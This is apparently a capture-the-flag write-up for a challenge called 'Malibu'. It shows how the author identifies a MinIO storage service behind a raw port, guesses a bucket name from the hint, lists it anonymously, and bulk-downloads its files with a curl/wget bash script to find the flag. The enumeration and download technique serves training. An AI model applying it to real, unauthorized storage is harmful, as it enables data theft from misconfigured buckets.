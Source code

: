 # Malibu

## Description:

```
What do you bring to the beach?

As an extra tip, once you understand what the service is, try to connect in a more effective way. Use context clues and critical thinking based on its response and the challenge description. You won't need any brute-forcing once you grasp the infrastructure and enumerate effectively. ;)
```

## Steps to Solve the CTF:

First, we try to connect to the instance:

nc challenge.ctf.games <PORT> 

We don’t receive any instructions, so we attempt to type "HELLO":
```
wslario@LT-5CG411013H:/mnt/c/Users/Forensic/Desktop/CTF/huntress/Malibu$ nc challenge.ctf.games 30595 
HELLO 

HTTP/1.1 400 Bad Request 
Content-Type: text/plain; charset=utf-8 
Connection: close
```

HTTPS... seems interesting. Let's attempt to send a valid request.

After a few trials, I decided to enter the URL into the Chrome browser.

Based on the logs and the "Access Denied" response, I concluded that it was hosted on an Amazon instance:
```
HTTP/1.1 403 Forbidden 
Accept-Ranges: bytes 
Content-Length: 254 
Content-Type: application/xml 
Server: MinIO Strict-Transport-Security: 
max-age=31536000; includeSubDomains 
Vary: Origin 
Vary: Accept-Encoding 
X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8 
X-Amz-Request-Id: 17FB564C1D8644C9 
X-Content-Type-Options: nosniff 
X-Ratelimit-Limit: 59 
X-Ratelimit-Remaining: 59 
X-Xss-Protection: 1; 
mode=block Date: Fri, 04 Oct 2024 19:22:46 GMT

<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Access Denied.</Message><Resource>/</Resource><RequestId>17FB564C1D8644C9</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
```

So, I tried accessing `http://challenge.ctf.games:30595/public` and got a response. 

```
Error> <Code>AccessDenied</Code> <Message>Access Denied.</Message> <BucketName>public</BucketName> <Resource>/public</Resource> <RequestId>17FBE8F1434EA75E</RequestId> <HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId> </Error>
```
"Access Denied" is better than nothing. ;)

After being stuck and sleeping on it, I remembered that the CTF description was "What do you bring to the beach?"

So, I tried testing some bucket names, for example:

Sunscreen, Towel, Beer, Water, Food, Shovel, Bucket,

"Bucket" returned a result, and I got a lengthy XML response:
```
<Key>0g15hrKN/60Zl3u3n/eDEO9nrk/eXF2FPnTklap7751</Key> 
<LastModified>2024-10-05T09:39:40.739Z</LastModified> 
<ETag>"048f51cd14539300a90acccea8689bbb"</ETag> 
<Size>1569</Size> 
<Owner> <ID>02d6176db174dc93cb1b899f7c6078f08654445fe8cf1b6ce98d8855f66bdbf4</ID> 
<DisplayName>minio</DisplayName> 
</Owner> <StorageClass>STANDARD</StorageClass> 
</Contents> <Contents> 
<Key>0rjjHdbXvMFD2s7n</Key> 
<LastModified>2024-10-05T09:40:54.939Z</LastModified> 
<ETag>"39ba36310ee1bb288b7b763fa3d5d640"</ETag> 
<Size>1979</Size> <Owner> 
<ID>02d6176db174dc93cb1b899f7c6078f08654445fe8cf1b6ce98d8855f66bdbf4</ID> 
<DisplayName>minio</DisplayName> </Owner> 
<StorageClass>STANDARD</StorageClass> 
```

There were many more entries in the XML.

We could see the files, their sizes, last modified dates, and more. 

There were too many files to download by hand, so let's use a Bash script for this:

```
#!/bin/bash

# The base URL
BASE_URL="http://challenge.ctf.games:30595/bucket"

# Fetch the XML content from the bucket URL
XML_CONTENT=$(curl -s "$BASE_URL")

# Extract the Key values from the XML
KEYS=$(echo "$XML_CONTENT" | grep -oP '(?<=<Key>).*?(?=</Key>)')

# Loop through each key and download the corresponding file
for KEY in $KEYS; do
    # Replace any slashes in the Key to create a valid URL
    FILE_URL="$BASE_URL/$KEY"
    
    # Download the file
    echo "Downloading: $FILE_URL"
    wget -q --show-progress "$FILE_URL" -O "$(basename "$KEY")"
done

echo "Done"
```

chmod 777 ;) <scriptname>

Run the script.

When the script was executed, the files were downloaded:

```
strings * | grep flag 

54nO5a4Br2ezDsnfZSSIQ6L3775vwQxa8pv80HekjRBuXpFskLJe8bS6Uvp0EeIt5eM2ivuW3EdqzqUCzgPmqR9wBozLEhkCZy1eXmJxcdKs2eHPggQl37szhhOvwjSS1y9TLVJlk<span style="color:red;">flag{REDACTED_FLAG}></span>xN63GRRxSLXQ1qMAhTF4xCmxvpgi62AakeiyDU4dtvrIGFum1xavs3RLyUm6n3qer8ycEbnc0YYtRtgiEtttY
````	
